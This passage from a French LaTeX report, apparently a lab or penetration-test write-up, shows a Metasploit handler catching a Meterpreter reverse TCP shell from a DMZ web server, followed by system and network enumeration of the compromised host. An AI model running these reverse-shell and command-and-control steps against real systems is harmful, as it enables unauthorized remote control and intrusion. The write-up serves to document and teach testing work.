 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\subsection{Établissement de la Session Meterpreter}

Sur l'attaquant, un handler Metasploit est configuré :

\begin{lstlisting}[caption=Configuration du handler Metasploit]
		$ msfconsole -q
		[msf]> use exploit/multi/handler
		[msf] exploit(multi/handler)> set PAYLOAD linux/x64/meterpreter/reverse_tcp
		PAYLOAD => linux/x64/meterpreter/reverse_tcp
		[msf] exploit(multi/handler)> set LHOST 192.168.100.150
		LHOST => 192.168.100.150
		[msf] exploit(multi/handler)> set LPORT 4445
		LPORT => 4445
		[msf] exploit(multi/handler)> exploit
		
		[*] Started reverse TCP handler on 192.168.100.150:4445
		[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
		
		(Meterpreter 1)(/tmp) >
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Session Meterpreter Établie} : canal C2 (Command \& Control) chiffré actif.

\section{Énumération du Système Compromis}

\subsection{Informations Système}

\begin{lstlisting}[caption=Enumeration systeme via Meterpreter]
		(Meterpreter 1)(/tmp) > sysinfo
		Computer     : DMZ-WebServer
		OS           : Ubuntu 25.04 (Linux 6.14.0-37-generic)
		Architecture : x64
		Meterpreter  : x64/linux
	\end{lstlisting}

\subsection{Configuration Réseau}

\begin{lstlisting}[caption=Interfaces reseau detectees]
		(Meterpreter 1)(/tmp) > ifconfig
		
		Interface 1 : lo (127.0.0.1/8)
		Interface 2 : ens33 (192.168.10.100/24) ← DMZ
		Interface 3 : docker0 (172.17.0.1/16) ← Conteneurs internes
	\end{lstlisting}
\end{document}
